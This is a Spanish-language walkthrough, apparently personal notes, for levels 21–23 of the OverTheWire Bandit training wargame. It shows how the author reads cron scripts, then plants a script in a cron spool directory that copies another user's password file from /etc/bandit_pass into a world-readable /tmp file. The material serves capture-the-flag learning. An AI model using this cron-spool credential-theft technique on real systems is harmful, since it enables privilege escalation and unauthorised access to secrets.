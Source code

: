 Hay varios scripts en /etc/cron.d y he mirado el de bandit22, he examinado con un editor y veo en el código (es muy sencillo) que lo que hace es que vuelca la contraseña a un archivo en /tmp/ así que copio el /tmp/nombredearchivo y hago cat sobre él

+ ### **Nivel** 22
Hay un script de cron de bandit23, lo examino con cat o un editor de texto (nano o vim) y veo que ejecuta esto:

~~~bash
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
~~~

Cuyo resultado se añade a /tmp/ así que veo qué resultado arroja luego de transformar la cadena en un hash md5.
Ahora, en la terminal del nivel 22 a la que he conectado por ssh, hago cat /tmp/resultadodelscript y veo la contraseña que vuelca ahí.

+ ### **Nivel** 23
Hay que crear un script propio aquí, por suerte es relativamente sencillo.

Hay que ver el script que corre en cron y que comentan las instrucciones. Básicamente, el script dice que si meto otro script mío en /var/spool/bandit24/foo lo correrá.

En éste nivel es muy importante ir revisando siempre los permisos de los directorios y/o archivos a manipular.

Ese script .sh debe ser como el del nivel 21, un cat a la contraseña donde se guarda esta.

La cuestión es que debo crear un directorio de trabajo en /tmp en el que pueda guardar y cambiar permisos. Creo /tmp/dir_name y le doy permisos 777 porque me complico lo mínimo.
~~~bash
dir_name=$(mktemp -d)
~~~
Ahora, creo mi super script y lo edito, en mi caso utilizo vim. 

~~~bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/dir_name/pass.log
chmod o+rw /tmp/dir_name/pass.log
~~~
Ahora le doy permisos de ejecución a mi script o no corre.
~~~bash
chmod +x /tmp/dir_name/script.sh
~~~
Lo copio a la dirección que me dicen las instrucciones.
~~~bash
cp /tmp/dir_name/script.sh /var/spool/bandit24/foo/
~~~
Espero un tiempo a que cron actúe, lo corra,
pudiendo monitorear el proceso con watch (watch -n 1 ls -l), luego hago:
~~~bash
cat /tmp/dir_name/pass.log 
~~~
para ver la contraseña.
